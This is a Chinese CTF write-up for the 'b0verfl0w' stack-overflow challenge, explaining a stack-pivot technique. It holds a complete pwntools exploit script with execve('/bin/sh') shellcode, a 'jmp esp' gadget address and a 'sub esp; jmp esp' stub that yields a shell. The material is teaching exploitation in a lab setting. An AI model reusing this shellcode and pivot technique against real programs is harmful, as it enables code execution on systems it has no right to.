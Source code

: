 ```yaml
---
title: b0verfl0w
date: 2018-03-18 23:11:36
tags: pwn
---
```

stack privot 题目
溢出的字节就只有50-0x20-4=14个字节，所以我们很难执行一些比较好的ROP。这里我们就考虑stack privot。

基本利用思路如下

利用栈溢出布置shellcode
控制eip指向shellcode处

第一步，还是比较容易地，直接读取即可，但是由于程序本身会开启ASLR保护，所以我们很难直接知道shellcode的地址。但是栈上相对偏移是固定的，所以我们可以利用栈溢出对esp进行操作，使其指向shellcode处，并且直接控制程序跳转至esp处。那下面就是找控制程序跳转到esp处的gadgets了。

`ROPgadget --binary b0verfl0w --only 'jmp|ret'  `

size(shellcode+padding)=0x20
size(fake ebp)=0x4
size(0x08048504)=0x4
所以我们最后一段需要执行的指令就是

```
sub 0x28,esp
jmp esp

```
Memory layout:
| Shellcode | Offset | 0x08048504 | Shellcode to perform stack pivoting | 

```
from pwn import *
sh = process('./b0verfl0w')
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
padding = 'a'*13
jmp_esp = 0x08048504
sub_esp_jmp = asm('sub esp,0x28;jmp esp')
payload = shellcode+padding+p32(jmp_esp)+sub_esp_jmp
sh.sendline(payload)
sh.interactive()
```
我不明白既然有了 asm('sub esp,0x28;jmp esp') 为什么还需要直接跳转到esp的gadgets。
解释：我们就可以借由jmp esp将执行流转移到栈上执行。而转移到栈上执行后，我们还需要对esp减上偏移(在返回地址时esp已经和ebp指向同一个地址)，使之转移到我们的buf中继续执行，而buf中我们事先就输入好了shellcode，那么我们在劫持完成后便可以获得一个shell
